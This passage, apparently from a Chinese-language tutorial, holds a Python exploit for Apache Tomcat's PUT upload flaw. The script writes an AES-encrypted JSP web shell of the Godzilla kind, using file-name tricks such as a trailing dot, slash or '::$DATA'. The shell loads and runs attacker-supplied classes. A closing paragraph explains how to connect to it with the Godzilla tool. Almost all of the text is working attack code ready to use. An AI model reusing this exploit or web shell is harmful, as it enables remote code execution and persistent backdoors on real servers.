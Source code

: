 ```
    data = """<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><% try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(pageContext.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters", new String(data));Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(pageContext);response.getWriter().write(md5.substring(0,16));response.getWriter().write(base64Encode(x(base64Decode(f.toString()), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}%>"""  
    code = ['cbd.jsp.', 'cbd.jsp/', 'cbd.jsp::$DATA']  
    try:  
        for i in range(2):  
            requests.put(url + code[i], headers=headers, data=data)  # 发送put请求写入文件  
            resp = requests.get(url + code[i][:-1], headers=headers)  # 发送get请求验证是否写入  
            if resp.status_code == 200:  
                print('写入文件成功,shell地址为 ' + url + code[0][:-1])  
                exit()  
        requests.put(url + code[2], headers=headers, data=data)  
        resp1 = requests.get(url + code[2], headers=headers)  
        if resp1.status_code == 200:  
            print('写入文件成功,shell地址为 ' + url + code[2])  
        print('Exploit结束')  
    except:  
        "someone is error!!!"  
  
  
if __name__ == '__main__':  
    target_url = sys.argv[1]  
    attack(target_url)  
```

下面使用哥斯拉连接，安装哥斯拉需要 jdk1.8 环境。安装完成后双击 Godzilla.jar 打开，此时会在同目录下生成 data.db 数据库存放数据。点击 管理–添加 生成所需的 webshell，内存 shell 的日志会在 tomcat 重启后消失。

